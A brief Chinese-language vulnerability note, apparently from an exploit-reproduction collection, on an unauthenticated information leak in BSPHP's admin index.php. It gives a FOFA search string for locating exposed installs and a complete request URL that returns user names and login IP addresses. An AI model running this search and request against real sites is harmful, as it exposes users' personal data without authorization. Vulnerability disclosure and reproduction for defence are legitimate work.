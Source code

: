 # BSPHP index.php 未授权访问 信息泄露漏洞

## 漏洞描述

BSPHP 存在未授权访问 泄露用户 IP 和 账户名信息

## 漏洞影响

```
BSPHP
```

## FOFA

```
"BSPHP"
```

## 漏洞复现

访问如下URL，泄露用户名与登录IP

```plain
http://xxx.xxx.xxx.xxx/admin/index.php?m=admin&c=log&a=table_json&json=get&soso_ok=1&t=user_login_log&page=1&limit=10&bsphptime=1600407394176&soso_id=1&soso=&DESC=0‘
```

![](./images/202202162317323.png)